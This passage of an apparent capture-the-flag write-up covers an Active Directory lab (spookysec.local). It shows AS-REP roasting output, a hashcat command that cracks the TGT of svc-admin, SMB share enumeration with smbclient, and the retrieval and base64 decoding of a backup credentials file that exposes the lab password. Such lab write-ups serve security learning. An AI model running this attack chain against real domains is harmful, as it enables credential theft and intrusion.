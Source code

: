 [-] User JAMES@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Robin@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Darkstar@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Paradox@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User DARKSTAR@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ori@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ROBIN@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set
{%endhighlight%}

I also found [this awesome video](https://forum.hackthebox.eu/discussion/2749/getnpusers-py-explained-video) for what was happening above.

Now that we have the encrypted TGT for the user "svc-admin" we save it to a file and bruteforce for a password using hashcat.

`hashcat -a 0 -m 18200 TGT.txt passwordlist.txt`

We cracked the password.

Next we can try logging into the SMB service.

{%highlight text%}
$ smbclient -U svc-admin -L \\\\10.10.27.108\\             
Enter WORKGROUP\svc-admin's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backup          Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 

{%endhighlight%}

"backup" looks good. Lets try listing its contents.

{%highlight text%}
$ smbclient -U svc-admin \\\\10.10.27.108\\backup
Enter WORKGROUP\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Apr  4 19:08:39 2020
  ..                                  D        0  Sat Apr  4 19:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 19:08:53 2020
{%endhighlight%}

Now just use "get backup_credentials.txt" to download the file.

{%highlight text%}
$ cat backup_credentials.txt 
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw

cat backup_credentials.txt | base64 -d
backup@spookysec.local:backup2517860
{%endhighlight%}
